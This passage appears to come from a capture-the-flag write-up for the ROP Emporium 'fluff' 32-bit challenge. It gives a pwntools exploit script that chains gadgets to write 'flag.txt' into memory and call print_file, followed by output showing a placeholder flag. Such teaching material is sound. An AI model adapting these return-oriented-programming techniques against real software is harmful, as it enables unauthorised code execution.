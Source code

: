 ```python
# pop ecx; bswap ecx; ret
g_pop_bswap_ecx=0x08048558

# xchg byte [ecx], dl; ret
g_xchg_ecx=0x08048555

# pop ebp; ret
g_pop_ebp = 0x080485bb

# .data section
data = elf.get_section_by_name('.data').header['sh_addr']

io = process([elf.path])

if len(sys.argv)>1 and sys.argv[1] == "-d":
    gdb.attach(io,gs)
    time.sleep(1)

# io.recvuntil(b"> ")

PL =b"A"*offset

for i, c in enumerate(b'flag.txt'):
    PL+=p32(g_pop_ebp)
    PL+=p32(pext_mask(0xb0bababa,c))
    PL+=p32(g_pext)
    PL+=p32(g_pop_bswap_ecx)
    PL+=p32(data+i, endianness="big")
    PL+=p32(g_xchg_ecx)

PL+=p32(print_file)
PL+=p32(data)

io.sendline(PL)
io.interactive()
```

### Execution

Execution du scipt python :

    06_fluff# vi solve.py

    [*] '/w/ropemporium/x32/06_fluff/fluff32'
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX enabled
        PIE:      No PIE (0x8048000)
        RUNPATH:  b'.'
    [+] Starting local process '/w/ropemporium/x32/06_fluff/fluff32': pid 124

      [*] Switching to interactive mode
    fluff by ROP Emporium
    x86

    You know changing these strings means I have to rewrite my solutions...
    > Thank you!
    ROPE{a_placeholder_32byte_flag!}
    [*] Got EOF while reading in interactive

